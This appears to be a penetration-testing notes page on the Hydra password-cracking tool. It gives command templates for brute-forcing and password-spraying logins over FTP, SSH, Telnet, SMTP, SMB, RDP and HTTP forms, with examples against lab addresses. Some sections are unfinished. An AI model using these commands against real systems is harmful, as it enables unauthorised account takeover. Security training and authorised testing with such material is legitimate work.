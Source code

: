 # Hydra
Hydra is a command-line password-cracking tool used to perform brute-force attacks to discover weak passwords

It supports various network protocols and applications such as:

| PROTOCOL | DEFAULT PORT | LINK |
| :----------: | :------: | :--: |
| FTP | 21 | link | 
| SSH | 22 | link | 
| Telnet | 23 | link | 
| SMTP | 25/587 | link | 
| HTTP(s) | 80/443 |link |
| SMB | 139/445 | link |
| RDP | 3389 | link |

The default port can be changed using `-s` flag.

<br>

## Modes
Hydra can be used in different scenarios:
* Password Cracking [Password Brute Force]
```console
hydra -l {KNOWN_USERNAME} -P {PASSWORD_WORDLIST} {TARGET_IP} [CUT]
```

* Password Spraying [Username Brute Force]
```console
hydra -L {USERNAME_WORDLIST} -P {KNOWN_PASSWORD} {TARGET_IP} [CUT]
```

* Username and Password Brute Force
```console
hydra -L {USERNAME_WORDLIST} -P {PASSWORD_WORDLIST} {TARGET_IP} [CUT]
```

<br>

## Protocols
Here a list of hydra commands for the most common protocols

### FTP
```console
hydra -l {USERNAME} -P {WORDLIST} {TARGET_IP} ftp -f
```

### SSH
```console
hydra -l {USERNAME} -P {WORDLIST} {TARGET_ID} ssh -f
```

### Telnet
```console
hydra -l {USERNAME} -P {WORDLIST} {TARGET_ID} telnet -f
```

### SMTP
```console
hydra -l {EMAIL} -P {WORDLIST} {TARGET_EMAIL_SERVER} smtp -S -f
```

### SMB
```console
hydra -l {USERNAME} -P {WORDLIST} {TARGET_ID} smb -f
```

### RDP
```console
hydra -l {USERNAME} -P {WORDLIST} {TARGET_ID} rdp -f
```

### HTTP 
* Basic Authentication
```console
hydra -l {USERNAME} -P {WORDLIST} {TARGET_ID} -s {PORT} http-head {PAYLOAD} -f
```

* Digest Authentication
```console
hydra -l {USERNAME} -P {WORDLIST} {TARGET_ID} -s {PORT} http-get {PAYLOAD} -f
```

* Other Authentication
```console
hydra -l {USERNAME} -P {WORDLIST} {TARGET_ID} -s {PORT} {MODULE} {PAYLOAD} -f
```

where, according to the web server authentication method:

`Module` can assume the following values:
* http-get-form
* http-post-form
* https-get-form
* https-post-form

`Payload` (argument of the module) is a three colon-delimited fields {LOGIN_FORM_LOCATION}:{REQUEST_BODY}:{FAILED_LOGIN_IDENTIFIER} where
* LOGIN_FORM_LOCATION is the path of the login form, such as /secure/login
* REQUEST_BODY is the request body the web server expected
* FAILED_LOGIN_IDENTIFIER is the error response when a login failed (exit condition)

```console
hydra -l admin -P ./rockyou.txt 10.10.10.123 -s 80 http-post-form "/login:j_username=admin&j_password=^PASS^:Incorrect username or password" -f
```

`TODO`
In case of JSON Post Authentication, we need to specify the Content-Type: application/json, maybe with the flag H=

### Post Json Authentication
application/json
hydra -l admin@juice-sh.op -P /usr/share/wordlists/SecLists/Passwords/Common-Credentials/best1050.txt 10.10.174.18 http-post-form "/rest/user/login:email=^USER^&password=^PASS^:Invalid"


## Flags

| OPTIONS | DESCRIPTION | NOTE |
| :------------: | :------------: | ------------ |
| -l | Username | Specifies the username to brute-force | 
| -f | Ends when succeed | The brute-force terminates when an occurrence succeeds |
| -P | Password Wordlist | Password is brute-forced using this wordlist |
| -L | Username Wordlist | Username is brute-forced using this wordlist |
| -C | User+Pass Wordlist | Unique wordlist containing username:password for every line |
| -s | Port | Specifies the port to use |
| -t | Threads | Specifies the number of thread to use | 
| -v | Verbose | Enables verbose mode | 
| -d | Debug | Enables debug mode | 
| -w | Seconds | Specifies the number of seconds to wait between requests | 
| -S | SSL | Performs a connection using SSL |


## Intercept with Proxy
Hydra requests can be inspected using Burp, in order to understand what is wrong about the request.
Hydra needs just the setup of the following environment variable

```console
export HYDRA_PROXY_HTTP=http://127.0.0.1:8080
```